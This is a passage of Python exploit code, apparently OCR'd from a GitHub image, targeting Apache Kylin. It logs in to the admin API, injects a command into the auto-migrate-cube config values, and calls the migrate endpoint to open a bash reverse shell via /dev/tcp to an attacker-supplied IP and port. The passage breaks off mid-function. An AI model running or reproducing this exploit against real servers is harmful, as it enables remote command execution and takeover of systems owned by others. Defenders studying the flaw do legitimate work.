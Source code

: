 ```python
    login_url = target_url + "/kylin/api/user/authentication"
    user_pass = str(input("\033[35mPlease input User and Pass\nLogin >>> \033[0m"))

    Authorization = "Basic " + str((base64.b64encode(user_pass.encode('utf-8'))),'utf-8')
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Authorization": Authorization,
        "Cookie": "project=null"
    }
    try:
        response = requests.post(url=login_url, headers=headers, timeout=20)
        if "password" not in response.text:
            print("\033[31m[x] 账号密码出现错误 \033[0m")
            sys.exit(0)
        else:
            print("\033[32m[o] 成功登录，获得JSESSIONID：" + response.cookies["JSESSIONID"] + "\033[0m")
            return response.cookies["JSESSIONID"],Authorization
    except:
        print("\033[31m[x] 漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, cookie, IP, PORT, Authorization):
    config_url = target_url + "/kylin/api/admin/config"

    key = ["kylin.tool.auto-migrate-cube.enabled","kylin.tool.auto-migrate-cube.src-config","kylin.tool.auto-migrate-cube.dest-config"]
    value = ["true","echo;bash -i >& /dev/tcp/{}/{} 0>&1;echo".format(IP, PORT), "shell"]

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Authorization": Authorization,
        "Accept": "application/json, text/plain, */*",
        "Content-Type": "application/json;charset=UTF-8",
        "Pragma": "no-cache",
        "Cookie": "project=null;JSESSIONID="+cookie
    }
    for i in range(0,3):
        data = """{"key":"%s","value":"%s"}""" % (key[i], value[i])
        try:
            response = requests.put(url=config_url, headers=headers, data=data, timeout=20)
            if response.status_code == 200:
                print("\033[32m[o] 成功将" + key[i] +"设置为" + value[i] +"\033[0m")
            else:
                print("\033[31m[x] 设置" + key[i] +"为" + value[i] +"失败\033[0m")
                sys.exit(0)
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
            sys.exit(0)

def POC_3(target_url, cookie):
    print("\033[35m[o] 正在反弹shell......\033[0m")
    vuln_url = target_url + "/kylin/api/cubes/kylin_sales_cube/learn_kylin/migrate"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "project=null;JSESSIONID=" + cookie
    }
    try:
        response = requests.post(url=vuln_url, headers=headers)
        POC_4(target_url, cookie)
    except:
```
